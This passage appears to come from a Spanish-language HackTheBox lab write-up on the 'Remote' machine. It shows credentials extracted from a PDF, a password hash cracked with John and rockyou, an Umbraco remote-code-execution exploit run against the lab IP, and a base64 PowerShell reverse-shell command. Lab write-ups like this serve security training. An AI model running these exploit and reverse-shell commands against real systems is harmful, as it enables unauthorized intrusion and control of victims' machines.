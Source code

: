 Al ser interpretado como binario, se uso `strings Umbraco.pdf` para interpretar los caracteres legibles identificando así las credenciales `admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa`.

![Credenciales expuestas](images/enum_7.png)

# Explotación

## Cracking de hash obtenido

Guardando el hash del usuario admin en un archivo y haciendo uso de `john hashes --wordlist=/usr/share/wordlists/rockyou.txt` se obtuvo la contraseña `admin@htb.local:baconandcheese`.

![Crackeo de hash](images/exploit_1.png)

## RCE

Después de validar las credenciales con el portal de umbraco y descargar el exploit previamente encontrado, se ejecutó `python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c whoami` para corroborar su uso.

![Ejecución de comando whoami](images/exploit_2.png)

Haciendo uso de [Reverse Shell Generator](https://www.revshells.com/) se generó una reverse shell de powershell en base64 para entablar la conexión con `python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-e JABjAGwAaQBlAG4AdAAg[...]`.
